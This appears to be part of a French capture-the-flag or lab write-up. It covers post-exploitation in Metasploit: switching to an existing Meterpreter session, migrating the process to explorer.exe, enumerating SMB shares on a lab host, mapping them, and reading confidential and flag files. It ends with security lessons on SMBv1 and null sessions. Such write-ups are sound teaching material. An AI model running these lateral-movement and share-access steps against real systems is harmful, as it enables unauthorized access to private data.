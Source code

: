 ### Phase 9 : Exploitation des Ressources Partagées

#### Tentative d'accès initial
```bash
# Retour à la session Meterpreter
sessions -i 1
shell
# Test d'accès aux ressources partagées
net view 10.0.28.125
```

**Résultat initial :** `Access is denied`

#### Migration de processus
```bash
# Migration vers un processus utilisateur
migrate -N explorer.exe
shell
# Nouvelle tentative d'accès
net view 10.0.28.125
```

**Concept - Migration de processus :**
- Passage de `NT AUTHORITY\SYSTEM` vers un processus utilisateur
- `explorer.exe` s'exécute dans le contexte de l'utilisateur connecté
- Permet l'accès aux ressources réseau avec les permissions utilisateur

**Résultats après migration :**
- Découverte de deux ressources partagées : `Documents` et `K$`
- Confirmation que la cible 2 autorise les sessions nulles

#### Mappage des lecteurs réseau
```bash
# Mappage des ressources partagées
net use D: \\10.0.28.125\Documents
net use K: \\10.0.28.125\K$
```

#### Exploration des données
```bash
# Exploration du contenu des lecteurs mappés
dir D:
dir K:

# Lecture des fichiers sensibles
cat D:\\Confidential.txt
cat D:\\FLAG2.txt
```

## 🔑 Points Clés et Leçons Apprises

### Sécurité SMB/NetBIOS
1. **Versions SMB** : SMBv1 extrêmement dangereux, désactiver impérativement
2. **Sessions nulles** : Configuration dangereuse permettant l'accès anonyme
3. **Credentials faibles** : Bruteforce efficace sur mots de passe simples
4. **Partages par défaut** : `C$`, `ADMIN$` donnent accès système complet
